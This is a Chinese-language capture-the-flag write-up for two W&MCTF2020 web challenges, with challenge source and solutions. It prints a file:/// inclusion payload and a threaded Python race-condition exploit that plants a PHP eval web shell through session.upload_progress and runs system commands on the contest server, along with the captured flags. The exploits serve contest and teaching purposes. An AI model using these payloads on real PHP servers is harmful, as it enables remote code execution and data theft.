 ```yaml
---
title: W&MCTF2020
date: 2020-08-03
image: https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210228100849.jpeg
description: W&M战队主板，0day大战
categories: 
- ctf_writeup
tags:
- session.upload_progress
- 文件包含
---
```

0day大战，，，打不动，告辞

------

### web_checkin

考点：文件包含file协议

```
<?php
//PHP 7.0.33 Apache/2.4.25
error_reporting(0);
$sandbox = '/var/www/html/' . md5($_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
highlight_file(__FILE__);
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    if(preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$content))
         die('hacker');
    if(file_exists($content))
        require_once($content);
    file_put_contents($content,'<?php exit();'.$content);
}
```

直接file读取根目录flag

```
?content=file:///flag
```

WMCTF{a1sc8591as98c1a96s85c165as1cas7d89}

 

 

 

### Make PHP Great Again

考点：session.upload_progress文件包含，条件竞争

referer:https://www.freebuf.com/news/202819.html

exp:

```
#coding=utf-8
 
import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('tac /var/www/html/flag.php');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' *100* 50)
        resp = session.post( 'http://no_body_knows_php_better_than_me.glzjin.wmctf.wetolink.com', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://no_body_knows_php_better_than_me.glzjin.wmctf.wetolink.com?file=/tmp/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write,args=(session,)).start()
 
        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```

WMCTF{php_s0urc3_1s_om0sh1201}